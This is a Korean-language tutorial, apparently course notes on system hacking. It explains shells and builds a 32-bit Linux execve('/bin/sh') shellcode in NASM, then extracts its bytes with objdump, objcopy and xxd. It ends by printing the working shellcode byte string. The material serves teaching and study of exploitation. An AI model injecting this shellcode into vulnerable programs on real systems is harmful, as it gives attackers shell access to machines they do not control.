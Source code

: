 - **셸(Shell, 껍질)** 이란 운영체제에 명령을 내리기 위해 사용되는 사용자의 인터페이스
    - 운영체제의 핵심 기능을 하는 프로그램을 **커널(Kernel, 호두 속 내용물)** 과 대비됨
    - 셸을 획득하면 시스템을 제어할 수 있게 되므로 통상적으로 셸 획득을 시스템 해킹의 성공으로 여김
- **execve 셸코드**는 임의의 프로그램을 실행하는 셸코드인데, 이를 이용하면 서버의 셸을 획득할 수 있음
    - 다른 언급없이 셸코드라고 하면 이를 의미하는 경우가 많음
- 최신의 리눅스는 대부분 *sh, bash*를 기본 셸 프로그램으로 탑재하고 있으며, 이 외에도 *zsh, tsh* 등의 셸을 유저가 설치해서 사용할 수 있음
    - */bin/sh*를 실행하는 execve 셸코드를 작성
- execve(”/bin/sh”, null, null)
    - execve 셸코드는 execve 시스템 콜만으로 구성
    - *argv*는 실행 파일에 넘겨줄 인자, *envp*는 환경 변수
    - sh만 실행하면 되므로 다른 값들은 전부 *null*로 설정해줘도 됨
    - 리눅스에서는 기본 실행 프로그램들이 */bin/* 디렉토리에 저장
        - *sh* 역시 여기에 저장
    - 따라서 execve(“/bin/sh”, null, null)을 실행하는 것을 목표로 셸 코드를 작성

### objdump 를 이용한 shellcode 추출

```nasm
; File name: S4_05_shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

```bash
# step1-S4_05_shellcode.o
$ sudo apt-get install nasm
$ nasm -f elf S4_05_shellcode.asm
$ objdump -d S4_05_shellcode.o

S4_05_shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   31 c9                   xor    %ecx,%ecx
  11:   31 d2                   xor    %edx,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80

# step2-S4_05_shellcode.bin
$ objcopy --dump-section .text=S4_05_shellcode.bin S4_05_shellcode.o
$ xxd S4_05_shellcode.bin
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....

# shellcode string, execve /bin/sh shellcode: 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```
